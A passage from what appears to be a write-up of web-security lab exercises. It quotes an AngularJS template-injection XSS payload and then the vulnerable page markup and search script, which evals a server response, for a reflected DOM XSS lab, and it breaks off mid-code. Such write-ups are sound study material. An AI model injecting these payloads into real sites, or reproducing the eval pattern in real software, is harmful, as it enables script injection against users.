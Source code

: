 Just found a payload from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)
```
{{constructor.constructor('alert(1)')()}}
```


#### Reflected DOM XSS

Found this script in the source code of the search results page

```html
<script src='resources/js/searchResults.js'></script>
<script>search('search-results')</script>
<section class="blog-header">
</section>
<section class=search>
    <form action=/ method=GET>
        <input type=text placeholder='Search the blog...' name=search>
        <button type=submit class=button>Search</button>
    </form>
</section>
```

```js

function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        blogHeader.appendChild(h1);
        var hr = document.createElement("hr");
        blogHeader.appendChild(hr)

        for (var i = 0; i < searchResults.length; ++i)
        {
            var searchResult = searchResults[i];
            if (searchResult.id) {
                var blogLink = document.createElement("a");
                blogLink.setAttribute("href", "/post?postId=" + searchResult.id);

                if (searchResult.headerImage) {
                    var headerImage = document.createElement("img");
                    headerImage.setAttribute("src", "/image/" + searchResult.headerImage);
                    blogLink.appendChild(headerImage);
                }

                blogList.appendChild(blogLink);
            }

            blogList.innerHTML += "<br/>";
```
